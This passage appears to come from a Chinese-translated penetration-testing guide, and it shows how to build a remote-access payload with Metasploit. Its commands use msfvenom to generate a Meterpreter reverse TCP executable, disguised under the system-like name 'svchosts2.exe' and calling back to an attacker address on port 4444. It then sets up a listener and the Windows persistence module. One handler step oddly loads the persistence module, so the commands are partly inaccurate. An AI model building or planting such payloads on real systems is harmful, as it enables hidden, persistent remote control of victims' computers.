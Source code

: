 ![](img/891006ee-ba1f-4bba-bb82-27ebdbf6255a.png)

错误显示应用程序 ApacheBench 已崩溃。此计算机未加载 Apache Web 服务器，因此错误可能来自我们正在使用的 HTTPS 有效负载。因此，让我们构建另一个有效负载，以用作 RAT，使用直接的 TCP 连接。要从命令行构建有效负载，请运行以下命令：

```
msfvenom -p windows/meterpreter_reverse_tcp --platform windows -f exe -a x86 LHOST=172.16.42.215 LPORT=4444 -o svchosts2.exe

```

![](img/b64246ba-c993-433b-9952-46cb6cad20ed.png)

我们需要为此有效负载设置一个多/处理程序：

```
use post/windows/manage/persistence_exe
set PAYLOAD windows/meterpreter_reverse_tcp
set LPORT 4444
run -j
```

现在使用以下命令返回到持久性模块：

```
use post/windows/manage/persistence_exe  
```
